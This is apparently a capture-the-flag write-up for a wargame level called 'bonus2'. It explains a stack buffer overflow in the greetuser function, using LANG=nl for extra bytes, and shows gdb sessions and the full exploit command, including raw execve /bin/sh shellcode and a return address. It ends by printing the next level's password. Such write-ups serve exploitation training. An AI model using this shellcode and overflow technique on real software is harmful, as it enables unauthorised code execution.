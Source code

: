 We want to make a buffer overflow to redirect eip to some address in the stack where we write a shellcode. \
The first place we thought to put the shellcode in was in the `greetuser` buffer. To overflow and write on the eip, we need to write at least `72` bytes (space reserved by esp) and then write `8` bytes to overwrite the eip. \
As our buffer can be at most `72` bytes long, we need some more bytes. With the default language value, we can only go to `76` bytes long, so we need more bytes. \
Setting the variable `LANG` to `nl` gives us `13` bytes more. `72 + 13 = 85` so we have enough space to overwrite the eip. \
The shellcode is `55` bytes long, so it wont fit into our first or our second parameter. We split it after making some adjustment, give the address of the stack to jump in, and `voila`:
```shell
(gdb) b *greetuser+147
Breakpoint 1 at 0x8048517

(gdb) r `python -c 'print "\x41"*3 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff"'` `python -c 'print "\xff/bin/sh" + "\x90"*11 + "\xf0\xf5\xff\xbf"*2'`
Breakpoint 1, 0x08048517 in greetuser ()

(gdb) x/48wx $esp
0xbffff5d0:	0xbffff5e0	0xbffff630	0x00000001	0x00000000
0xbffff5e0:	0x64656f47	0x64696d65	0x21676164	0xb7e50020
0xbffff5f0:	0xbfffff10	0xb7e338f8	0x00000002	0xb7ec38ee
0xbffff600:	0xbffff638	0xbffff680	0x00000000	0xbffff6cc
0xbffff610:	0xbffff6e8	0xb7ff26b0	0xbfffff10	0xb7f5d780
0xbffff620:	0xbfffff13	0xb7fff918	0xbffff6e8	0x08048630
0xbffff630:	0xeb414141	0x76895e1f	0x88c03108	0x46890746
...

(gdb) x/wx $ebp
0xbffff628:	0xbffff6e8

(gdb) ni
0x0804851c in greetuser ()

(gdb) x/48wx $esp
0xbffff5d0:	0xbffff5e0	0xbffff630	0x00000001	0x00000000
0xbffff5e0:	0x64656f47	0x64696d65	0x21676164	0x41414120
                                                |_ we start writing here so we write some A's to be aligned
0xbffff5f0:	0x895e1feb	0xc0310876	0x89074688	0x0bb00c46
            |_ our shellcode that ends
0xbffff600:	0x4e8df389	0x0c568d08 |0xdb3180cd	0xcd40d889
                                   |                     ____
0xbffff610:	0xffdce880	0x622fffff |0x732f6e69	0x909090|68__|
                                   |____________________| here
0xbffff620:	0x90909090	0x90909090	0xbffff5f0	0xbffff5f0
                                    |_ the ebp  |_ the eip
...

(gdb) quit

bash$ LANG=nl ./bonus2 `python -c 'print "\x41"*3 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff"'` `python -c 'print "\xff/bin/sh" + "\x90"*11 + "\xf0\xf5\xff\xbf"*2'`
Goedemiddag! AAA�^�1��F�F
                         �
                          ���V
                               ̀1ۉ�@̀�����/bin/sh������������������� 
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

